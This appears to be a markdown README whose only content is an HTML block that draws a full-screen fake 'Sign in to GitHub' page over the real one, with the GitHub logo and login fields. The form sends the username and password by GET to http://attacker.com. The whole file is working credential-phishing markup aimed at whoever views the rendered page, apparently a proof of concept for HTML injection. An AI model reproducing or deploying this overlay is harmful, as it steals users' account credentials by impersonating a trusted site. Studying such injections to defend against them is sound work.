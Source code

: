 # dadada

<div style="position:fixed;left:0;top:0;width:100%;height:100vh;background: #c9d1d9;z-index:1; padding-top: 10vh;color:#090d11">
    <center>
        <svg height="48" aria-hidden="true" viewBox="0 0 16 16" version="1.1" width="48" data-view-component="true" class="octicon octicon-mark-github">
            <path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0016 8c0-4.42-3.58-8-8-8z"></path>
        </svg>
        <h1 style="font-size: 24px;font-weight: 300;letter-spacing: -.5px;">Sign in to GitHub</h1>
        <div style="padding-top:1em; padding-bottom: 1em; background:#090d11;width:50%; border-radius:7px;color:#c9d1d9">
            <form action="http://attacker.com" accept-charset="UTF-8" method="get">
                <label for="login_field">Username or email address</label><br/>
                <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="text" name="login" id="login_field" autocomplete="username" autofocus="autofocus"><br/>
                <label for="password">Password</label><br/>
                <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="password" name="password" id="password" autocomplete="current-password"><br/><br/>
                <input style="background:#2ea043; border-color:#2ea043; width:50%; border-radius:7px;color:white; text-weigth: bold; font-size: 17px;" type="submit" name="commit" value="Sign in">
            </form>
        </div>
    </center>
</div>
